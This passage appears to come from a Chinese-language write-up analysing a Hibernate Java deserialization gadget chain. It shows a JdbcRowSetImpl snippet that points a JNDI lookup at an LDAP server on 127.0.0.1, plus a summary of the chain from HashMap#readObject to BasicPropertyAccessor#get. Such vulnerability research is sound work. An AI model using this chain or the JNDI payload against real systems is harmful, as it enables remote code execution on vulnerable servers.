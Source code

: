 是jndi的时候

```java
JdbcRowSetImpl rs = new JdbcRowSetImpl();
rs.setDataSourceName("ldap://127.0.0.1:23457/Command8");
Method method = JdbcRowSetImpl.class.getDeclaredMethod("getDatabaseMetaData");
```

## 总结

`hashMap#readobject`==>`typedValue#hashcode`==>`ValueHolder#getvalue`==>`componentType(propertySpan=1,propertyTypes=new Type[]{(Type) componentType})#getHashcode`==>`componentType#getPropertyValue`==>`PojoComponentTuplizer#getPropertyValue`==>`AbstractComponentTuplizer#getPropertyValue`==>`BasicPropertyAccessor#get`.

